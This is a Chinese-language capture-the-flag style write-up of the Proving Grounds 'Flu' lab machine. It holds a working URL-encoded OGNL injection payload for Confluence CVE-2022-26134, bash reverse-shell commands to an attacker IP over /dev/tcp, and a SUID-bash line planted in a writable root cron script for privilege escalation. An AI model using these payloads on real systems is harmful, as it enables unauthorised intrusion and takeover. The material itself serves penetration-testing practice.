 ```yaml
---
title: Proving Grounds Practice-Flu
date: 2025-7-16 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




# 信息收集

## nmap

![image-20250716141020741](./Flu/image-20250716141020741.png)

```
/bin/bash -c bash${IFS}-i${IFS}>&/dev/tcp/192.168.45.177/80<&1
```

# 8090端口

存在版本号，直接搜索`confluence 7.13.6 exp`，就可以找到CVE-2022-26134，该版本存在未认证的远程命令执行

![image-20250716151627131](./Flu/image-20250716151627131.png)

请求表达式：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

进行url编码之后就是

```
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

![image-20250716152001425](./Flu/image-20250716152001425.png)

使用的是java的getruntime.exec()函数进行命令执行，通过该函数如何反弹shell可以看这篇文章

[java Runtime.getRuntime().exec 获取反弹shell_java.lang.runtime.getruntime().exec-CSDN博客](./https://blog.csdn.net/whatday/article/details/107098353)

其中采用第二个payload，编码之后的内容如下:

```
/bin/bash%20-c%20$@%7Cbash%200%20echo%20bash%20-i%20%3E&/dev/tcp/192.168.45.171/80%200%3E&1
```

替换请求中的命令执行部分

```
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22/bin/bash%20-c%20$@%7Cbash%200%20echo%20bash%20-i%20%3E&/dev/tcp/192.168.45.177/80%200%3E&1%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

然后本地监听就可以得到shell

![image-20250716152203406](./Flu/image-20250716152203406.png)

# 提权

运行pspy查看靶机运行的进程可以知道以root权限在执行log-backup.sh，每五分钟执行一次

![image-20250716163138692](./Flu/image-20250716163138692.png)

并且该文件可写

![image-20250716163224908](./Flu/image-20250716163224908.png)

在文件中加入可以提权的代码等待执行就可以了

```
cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf
```

![image-20250716163808835](./Flu/image-20250716163808835.png)